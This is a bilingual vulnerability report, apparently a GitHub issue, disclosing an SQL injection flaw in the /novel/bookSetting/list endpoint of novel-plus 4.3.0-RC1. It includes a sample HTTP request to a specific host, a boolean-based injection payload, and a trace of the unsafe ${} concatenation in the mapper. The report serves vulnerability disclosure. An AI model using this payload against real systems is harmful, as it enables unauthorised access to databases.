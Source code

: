 ## In the novel-plus version 4.3.0-RC1, there is an SQL injection vulnerability in the "/novel/bookSetting/list" interface.

### 版本 / Version

4.3.0-RC1

### 什么问题 / What's the problem

In the novel-plus system, there exists an SQL injection vulnerability in the /novel/bookSetting/list interface.

在novel-plus系统中/novel/bookSetting/list接口存在SQL注入漏洞

### 如何复现此问题 / How to reproduce this problem

#### 功能点 / Function points

![](../img/1.png)

#### 请求信息 / Request message:

```
GET /novel/bookSetting/list?type=3&limit=10&offset=0&sort=book_id&order=desc HTTP/1.1
Host: 164.155.196.137:8088
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Content-Type: application/json
Referer: http://164.155.196.137:8088/novel/bookSetting
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3284050d-006d-47f0-83ff-82501693fe3e
Connection: close


```

攻击载荷 / payload:`AND 2111=(SELECT(CASE WHEN(2111=2111) THEN 2111 ELSE(SELECT  3865 UNION SELECT 6957) END))-- -`

![](../img/2.png)

There you can see it!

### 系统环境 (操作系统/MySQL版本/浏览器等) / System environment (OS/MySQL/Browser etc)

Mysql 8.0.14
Windows
JDK1.8.0_392
Chrome

### 说明 / Suggested description

In the novel-plus version 4.3.0-RC1, there is an SQL injection vulnerability in the "/novel/bookSetting/list" interface.
在novel-plus 4.3.0-RC1版本中/novel/bookSetting/list接口存在SQL注入漏洞
Failed to legally check parameters, resulting in SQL injection vulnerabilities.
未能合法检查参数从而导致sql注入漏洞.

#### 漏洞类型 / Vulnerability Type

SQLi

#### 产品供应商 / Vendor of Product

https://github.com/201206030/novel-plus/tree/v4.3.0-RC1

#### 受影响的产品代码库 / Affected Product Code Base

=4.3.0-RC1

#### 受影响组件 / Affected Component

/novel/bookSetting/list

#### 攻击方式 / Attack Type

Remote

### 漏洞成因 / Cause of vulnerability

In the 'com. java2nb. cover. controller. BookSettingController # list', receive parameters.

在`com.java2nb.novel.controller.BookSettingController#list`中，接收参数

![](../img/3.png)

Enter the service layer `com.java2nb.cover.service.impl.BookSettingServiceImpl#list`.

进入service层`com.java2nb.novel.service.impl.BookSettingServiceImpl#list`

![](../img/4.png)

In the end, it came to Mapper where ${was used for concatenation, so there is an SQL injection vulnerability present here.

最终来到Mapper中，此处使用了${进行拼接，所以此处存在了SQL注入漏洞

![](../img/5.png)

The end,thanks!
